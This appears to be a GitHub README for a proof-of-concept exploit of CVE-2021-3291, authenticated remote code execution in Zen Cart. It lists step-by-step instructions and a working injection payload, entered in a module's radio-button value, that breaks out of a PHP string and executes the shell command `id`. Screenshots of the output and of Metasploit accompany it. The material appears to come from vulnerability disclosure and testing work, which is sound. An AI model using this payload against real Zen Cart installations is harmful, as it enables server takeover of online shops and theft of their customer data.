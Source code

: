 # zencart_auth_rce_poc CVE-2021-3291


1-) login as admin

2-) get any modules edit page

3-) inspect element any true radiobox

4-) change true to true','MODULE_ORDER_TOTAL_TOTAL_STATUS'); echo \`id\`; //

5-) click update

6-) to trig command go again edit page

CVE-2021-3291 https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3291


POC


exploiting
![send command](https://github.com/MucahitSaratar/somuru_programlarim/raw/master/images/command.png)
refresh page
![refresh page](https://github.com/MucahitSaratar/somuru_programlarim/raw/master/images/bir.png)
zoom

![zoom](https://github.com/MucahitSaratar/somuru_programlarim/raw/master/images/iki.png)

Metasploit 

![Ekran görüntüsü 2021-01-27 00-03-55](https://user-images.githubusercontent.com/29048982/105906034-3fce9080-6034-11eb-94cb-feb792b3105b.png)



GIF

![kanit](https://user-images.githubusercontent.com/29048982/105517880-a5471800-5ce8-11eb-8a27-84e1ef0b2c7e.gif)
